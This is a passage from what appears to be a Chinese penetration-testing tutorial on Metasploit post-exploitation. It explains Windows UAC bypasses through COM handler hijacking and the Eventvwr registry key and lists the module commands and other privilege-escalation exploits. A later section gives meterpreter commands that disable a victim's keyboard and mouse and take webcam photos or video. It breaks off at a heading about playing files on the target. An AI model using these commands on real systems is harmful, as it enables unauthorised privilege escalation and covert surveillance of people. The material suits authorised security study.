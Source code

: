 首先介绍一下这个COM处理程序劫持，此模块将通过在hkcu配置单元中创建COM处理程序注册表项来绕过Windows UAC。当加载某些较高完整性级别进程时，会引用这些注册表项，从而导致进程加载用户控制的DLL。这些DLL包含导致会话权限提升的payload。此模块修改注册表项，但在调用payload后将清除该项。这个模块需要payload的体系架构和操作系统匹配，但是当前的低权限meterpreter会话体系架构中可能不同。如果指定exe:：custom，则应在单独的进程中启动payloa后调用ExitProcess（）。此模块通过目标上的cmd.exe调用目标二进制文件。因此，如果cmd.exe访问受到限制，此模块将无法正常运行。

命令执行：

use exploit/windows/local/bypassuac_comhijack

set session 1

Exploit

方法四：通过Eventvwr注册表项 (特别麻烦，很难实现 --就是我没成功)

首先介绍一下这个模块，此模块将通过在当前用户配置单元下劫持注册表中的特殊键并插入将在启动Windows事件查看器时调用的自定义命令来绕过Windows UAC。它将生成关闭UAC标志的第二个shell。此模块修改注册表项，但在调用payload后将清除该项。该模块不需要payload的体系架构和操作系统匹配。如果指定EXE ::Custom，则应在单独的进程中启动payload后调用ExitProcess（）。

use exploit/windows/local/bypassuac_eventvwr

set session 1

Exploit

以上的本地提权的模块大家可以本地去测试一下，除了这些某块还有其它的通过直接通过incognito中的add_localgroup_user提升、ms13-081、ms15-051、ms16-032、MS16-016、MS14-068、ms18_8120_win32k_privesc域权限提升等其它的权限提升方法。小白在内网渗透测试的过程中发现一些客户的服务器大多数为2003、2008服务器，很少2012、2016服务器。

内网渗透



------------------------------------------------------------

* # 以下代码谨慎使用 

## uictl开关键盘/鼠标

```
uictl [enable/disable] [keyboard/mouse/all]  #开启或禁止键盘/鼠标
```
```
uictl disable mouse  #禁用鼠标
```
```
uictl disable keyboard  #禁用键盘
```


## webcam摄像头命令

```
webcam_list  #查看摄像头
```
```
webcam_snap   #通过摄像头拍照
```
```
webcam_stream   #通过摄像头开启视频
```
## 在目标系统播放目标文件
